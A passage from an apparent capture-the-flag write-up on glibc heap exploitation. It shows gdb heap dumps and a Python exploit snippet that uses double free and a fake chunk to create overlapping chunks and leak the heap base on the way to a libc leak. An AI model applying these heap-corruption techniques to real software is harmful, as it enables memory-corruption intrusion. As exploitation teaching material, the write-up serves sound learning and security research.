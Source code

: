 ```sh
0x5555557581b0:	0x0000000000000000	0x0000000000000000
0x5555557581c0:	0x0000000000000000	0x0000000000000000


```

### Pursuing the Libc

**0x21** size is just a fastbin chunk , how do we expect to get libc leak from a fastbin chunk??

If we can somehow corrupt the size of this 0x21 chunk with a small bin size , we can get our beloved libc. But how do we do that?

The answer to that could be creating **overlapping chunks**.

We use our friend **double free** and overwrite fd of a free chunk with our fake chunk's address which can yield our fake chunk overlapping with another chunk whose size we can overwrite.
{: .notice}

If that didn't hit a nerve , it will soon do :).

Let's craft a fake chunk inside of one of our allocated chunks only , some modifications to be made too :)

```py

if __name__=="__main__":
    add(0x70,'0000')
    add(0x70,'1111')
    add(0x70,'2'*0x60 + p64(0) + p64(0x21))
    add(0x70,'3333')
    free(1)
    free(2)
    free(0)
    add(0x10,'\xf0') #Chunk 4
    free(4)
    reu('will free: ')
    heap_base = u64(re(6) + '\x00'*2) - 0xf0
    log.info("heap @ " + hex(heap_base))

```

Now our fake chunk should reside in the memory.

```sh
0x555555758000:	0x0000000000000000	0x0000000000000021 -> Chunk 0
0x555555758010:	0x00005555557580a0	0x0000000000000010
0x555555758020:	0x0000000000000000	0x0000000000000081
0x555555758030:	0x0000000030303030	0x0000000000000000
0x555555758040:	0x0000000000000000	0x0000000000000000
0x555555758050:	0x0000000000000000	0x0000000000000000
0x555555758060:	0x0000000000000000	0x0000000000000000
0x555555758070:	0x0000000000000000	0x0000000000000000
0x555555758080:	0x0000000000000000	0x0000000000000000
0x555555758090:	0x0000000000000000	0x0000000000000000
gdb-peda$ 
0x5555557580a0:	0x0000000000000000	0x0000000000000021 -> Chunk 1
0x5555557580b0:	0x0000555555758000	0x0000000000000070
0x5555557580c0:	0x0000000000000000	0x0000000000000081
0x5555557580d0:	0x0000000031313131	0x0000000000000000
0x5555557580e0:	0x0000000000000000	0x0000000000000000
0x5555557580f0:	0x0000000000000000	0x0000000000000000
0x555555758100:	0x0000000000000000	0x0000000000000000
0x555555758110:	0x0000000000000000	0x0000000000000000
0x555555758120:	0x0000000000000000	0x0000000000000000
0x555555758130:	0x0000000000000000	0x0000000000000000
gdb-peda$ 
```